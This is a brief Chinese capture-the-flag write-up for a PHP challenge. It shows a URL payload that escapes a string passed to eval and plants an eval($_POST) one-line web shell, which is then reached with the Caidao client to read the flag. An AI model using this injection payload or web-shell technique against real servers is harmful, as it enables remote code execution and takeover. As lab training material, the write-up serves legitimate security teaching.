



## 【题解】

**注：** 这里环境里的flag是自己输入的随机字符，所以不用考虑最后flag和答案不一致的问题

1.打开自己电脑中的浏览器，访问靶机开放的环境地址`http://IP:PORT/`来进行访问实验环境



2.构造payload：

```php
?hello=);eval($_POST['A']);%2f%2f
```

3.`var_dump($a);`后的结果为

```php
string(22) ");eval($_POST['A']);//"
```

和前面代码拼合之后就是:

```php
eval("string(21) ");eval($_POST['A']);//"");
```

即成功构造php一句话木马。

4.菜刀连接



5.获取flag



